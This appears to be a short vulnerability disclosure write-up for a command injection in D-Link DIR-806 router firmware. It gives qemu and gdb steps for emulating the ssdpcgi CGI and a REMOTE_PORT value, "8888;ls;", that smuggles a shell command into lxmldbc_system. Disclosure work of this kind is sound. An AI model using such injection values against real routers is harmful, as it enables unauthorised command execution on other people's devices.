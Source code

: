 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection(parameter of REMOTE_PORT)

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT="8888;ls;" -E HTTP_ST="upnp:rootdevice" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the HTTP_ST parameter as REMOTE_PORT="8888;ls;", The results are shown in the figure below: 
![image-1](../img/2.jpg)
No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute
